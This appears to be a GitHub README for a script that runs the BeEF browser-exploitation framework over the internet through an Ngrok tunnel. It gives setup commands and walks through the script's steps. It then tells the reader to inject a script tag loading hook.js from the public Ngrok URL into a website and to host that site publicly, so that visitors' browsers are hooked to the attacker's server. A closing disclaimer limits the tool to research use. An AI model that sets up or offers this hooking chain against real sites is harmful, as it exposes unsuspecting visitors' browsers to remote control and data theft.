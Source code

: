 # BeEF Over WAN (Automated Script)

## Description
The **BeEF Over WAN** script automates the setup of **BeEF (Browser Exploitation Framework)** over the internet using **Ngrok**. This allows security researchers to deploy BeEF outside the local network without complex port forwarding.

## Features
- **Automated BeEF Configuration** – Dynamically updates the BeEF `config.yaml` file.
- **Ngrok Integration** – Automatically sets up a public-facing URL.
- **Process Management** – Kills existing services on port 3000 before starting BeEF.
- **Multi-Terminal Support** – Detects available terminal emulators for execution.

## Installation

### Prerequisites
Ensure the following dependencies are installed before running the script:

1. **BeEF** – Download and install BeEF from GitHub:

```bash
git clone https://github.com/beefproject/beef.git
cd beef
./install
```

2. **Ngrok** – Download and configure Ngrok:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
ngrok authtoken <YOUR_AUTH_TOKEN>
```

3. **jq** – Install jq for parsing JSON responses:

```bash
sudo apt install jq -y
```

## Usage
Run the script using:

```bash
bash beefoverwan.sh
```

### Steps:
1. The script will **start Ngrok** and retrieve a public URL.
2. It will **update BeEF’s config.yaml** file with the correct hostname.
3. **BeEF will launch**, making it accessible over the internet.
4. **Inject the BeEF hook** into a website by adding the following HTML snippet:

```html
<script src="http://<NGROK_URL>/hook.js"></script>
```

5. Host the modified website using **Zrok** or any public-facing web hosting service.

## Example Output
```
[+] Starting ngrok on port 3000...
[+] ngrok Host: abc123.ngrok.io
[+] Updating BeEF config.yaml...
[+] Starting BeEF...
[+] Setup complete! BeEF is running.
```

## Disclaimer
This tool is intended **for educational and security research purposes only**. Unauthorized usage against systems you do not own is **illegal and unethical**. The author is not responsible for any misuse of this tool.

## License
This project is released under the **MIT License**.
